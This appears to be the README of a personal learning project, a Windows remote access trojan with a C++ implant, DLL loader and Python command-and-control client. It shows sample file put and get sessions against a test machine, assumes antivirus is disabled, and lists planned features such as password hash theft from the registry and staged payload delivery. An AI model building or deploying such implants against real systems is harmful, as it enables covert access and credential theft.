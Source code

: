 # Windows-RAT
This repository will serve as an exploratory environment where I will rely primarily on C++ and Windows APIs to delve into the deeper aspects of Windows security management along with the varying components and architectures that come within the Windows environment.

## Repository Breakdown

### Pcaps
Packet captures between C2 and implant in a test environment for different commands. These help reinforce how interaction between our C2 and implant works for each command type. 

### RAT-DLL
All cpp *implant* side code that will, upon executing, open up a port on target and listen for commands sent by the user via Python CLI.

### RAT-Py
All py *client* side code that will, upon executing, open up a port on client and send commands to the implant via user input in the CLI.

### RAT-Exe
All cpp *implant* side code that will, upon executing, survey the target prior to loading our DLL that implements our functionality and opens communications back to client to accept commands.

## Assumptions
Current assumptions will include:
- The user has access to the target machine + network
- The user has the ability to or already has dropped .exe and .dll on target
- The user has remote shell/execution capabilities to launch payload on target
- Traditional antivirus programs have been disabled/mitigated

## Testing Environment
- Target machine is Window 10 Education version 10.0.19043 build 19043
- Python version for client is 3.7.16 (important for scapy use)

## Build Environment
- Visual Studio 2019 version 16.11.20

## Examples
### Startup
#### Required Args:
- ip - IP address of target
- port - port number our implant is listening on
#### Optional Args:
- N/A
```
pjsacchet@Patrick-Desktop:/mnt/c/Users/Admin/Projects/Personal/Windows-RAT/RAT-Py$ python3 RAT_Py_Main.py -ip 192.168.111.128 -port 1550
Reaching out to agent for connection establishment... 
Connected to agent at 192.168.111.128 on port 1550 
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit

```

### Perform a *put file*
#### Required Args:
- filepath - Path (locally) to file with contents we are writing to target
- outfilepath - Remote file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 1
Required params:

               -filepath - local path to file we are writing

               -outputfilepath - remote path we are writing to

Optional params:

               -overwrite - overwrite the file if it already exists (default: false)

> -filepath /mnt/c/Users/Admin/Projects/Personal/test.txt -outputfilepath C:\test2.txt
Sending command...
Sending file path...
Sending file contents...
Sending overwrite...
Sent data to implant; waiting on response code...
Successful file put!
Please select from the following options:

                1) Write a file to a location on target

                2) Get a file from a specific location on target

                0) Exit
```

### Perform a *get file*
#### Required Args:
- filepath - File path on target to the file we want to get 
- outfilepath - Local file path where we want to write our file contents to 
#### Optional Args:
- overwrite - Whether or not to overwrite the file locally if it already exits (default is false)
```
> 2
Required params:

                -filepath - path to file on target

                -outfilepath - file to write to locally
Optional params:
                - overwrite - overwrite the file locally if it already exists
                
> -filepath C:\test.txt -outfilepath /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Successful file get! Getting file contents...
Successfully wrote file contents to /mnt/c/Users/Admin/Projects/Personal/Windows-RAT/TestFiles/test.txt
Please select from the following options:

            1) Write a file to a location on target

            2) Get a file from a specific location on target

            3) Exit
```

## TODO
### Exisiting Features: 
- Flesh out getfile functionality
  - Eventually add flags for offsets into file and chunksizes to send back to C2?
- Flesh out putfile functionality
  - Implement C2 OK messages to ensure it has the param or resend if need be
  
### New Features:
- Implement dir lists
- Implement password hash stealing via registry reads 
- Implement registry key read/write add/delete
- Implement get system info 
- Implement screenshot
- Implement COM stuff?
  - Prob better in separate project
- Implement remote cred auth (kerberos, ntlm etc.)
- Implement basic encryption? 
  - Give both implant and C2 same key or something
- Process list 
  - Return specific info about a particular process
- Start/stop processes?
  - Flags for permissions, process name etc.
- Add specific error messages and translate function for easy debug messages
- Have exe perform survey, report results back to C2 and have C2 send DLL payload for loading 
